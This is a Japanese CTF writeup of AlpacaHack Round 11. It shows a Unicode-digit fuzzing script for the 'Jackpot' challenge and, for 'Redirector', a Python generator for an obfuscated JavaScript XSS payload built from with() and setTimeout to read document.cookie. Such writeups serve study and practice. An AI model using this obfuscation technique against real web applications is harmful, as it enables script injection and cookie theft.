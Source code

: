 +++
date = '2025-05-18T18:25:26+09:00'
title = 'AlpacaHackRound11 Writeup'
+++


2025.05.17 (Sat) 12:00 - 18:00 JSTでAlpacaHackがやっていたらしい。が見逃した。\
普通に15:00に起きて、それ以降部屋の掃除をしていた。終わった。

問題は、Jackpot、Redirector、Tiny Note、AlpacaMarkの4つで、Jackpotは63 solvesとsolve数が多いので解きたい。\
次にRedirectorが6 solvesと多いが、どう考えても63 solvesに比べると少ないのでわかっても分からなくてもこれだけ復習対象にすることにする。

つまり、今回はJackpotとRedirectorに挑むということです。


## Jackpot

つい最近Unicode周りで遊んだことが功を奏して結構すぐわかった。

```python
def fuzzing():
    for codepoint in range(0, 0x10ffff):
        try :
            value =chr(codepoint)
            if not re.fullmatch(r"\d+", value):
                pass
            if int(value) == 7:
                print(f"Found: Unicode {codepoint:x}, Character: {value}")
        except Exception as e:
            pass
```

このコードから出力されるCharacterをcandidatesパラメータに含めるだけ。

一例として以下の文字列となる。
```
７𝟟𝟩7𝟳𖩧𞅇᧗෭๗
```

これらは`\d`に引っかかり (つまり、数字の7として認識)、int()を行うと全て数字の7となるため、全ての値が7の配列が出来上がるというわけ。

## Redirector

これは普通に分からんかった。
色々な人の解法を見ると、with()を使って難読化するっぽい。

```javascript
payload = "alert(document.cookie)"

template = "with(String)with(String())"
for char in payload:
    template += "with(concat(fromCharCode(" + str(ord(char)) + ")))"

template += "setTimeout(concat(String()))"
print(template)
```

payloadにcookieを取得するペイロードを打ち込めばフラグが取得できる。

withの難読化とsetTimeoutの第一引数がevalと同じような挙動をするというのは面白いなと思いました。
(知らなかった。)
